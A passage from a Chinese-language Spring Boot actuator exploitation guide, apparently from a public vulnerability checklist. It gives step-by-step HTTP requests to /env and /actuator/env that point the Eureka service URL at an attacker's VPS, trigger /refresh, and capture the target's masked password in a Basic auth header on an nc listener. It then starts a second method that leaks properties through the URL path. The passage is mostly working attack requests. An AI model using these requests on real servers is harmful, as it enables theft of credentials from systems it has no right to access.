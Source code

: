 ```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```

**步骤四： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

**步骤五： 解码属性值**

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 \* 脱敏前的属性值明文。

#### 0x05：获取被星号脱敏的密码的明文 (方法三)

**利用条件：**

* 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： 使用 nc 监听 HTTP 请求**

在自己控制的外网服务器上监听 80 端口：
